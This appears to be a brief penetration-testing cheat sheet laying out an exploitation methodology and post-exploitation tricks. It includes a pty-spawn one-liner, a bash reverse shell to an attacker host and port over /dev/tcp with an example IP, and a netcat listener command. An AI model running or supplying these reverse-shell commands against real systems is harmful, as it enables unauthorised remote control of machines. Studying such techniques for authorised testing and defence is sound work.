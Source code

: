 # Methodology
1. Confirm the version.
2. Search the vulnerability.
  - Exploit code
  - Weak admin account
- Exploit
- If you needs > "After Exploitation"

## After Exploitation
- If you have no tty

```shell
(Target)$ python -c 'import pty;pty.spawn("/bin/bash")'
(Target)$ Ctrl+z
(Attack)$ export TERM=linux
```

- Other spawn method
```shell
bash -i >& /dev/tcp/<attacket host>/<port> 0>&1
# ex) bash -i >& /dev/tcp/10.11.0.96/443 0>&1
```

- Up other port
  - netcat
    ```sh
    nc -lvnp 12345 < banner.txt
    ## Options
    # -l : Mode -> l(Listen)
    # -v : show detail logs
    # -n : Don't resolve FQDN
    # -p : specific port
    ```

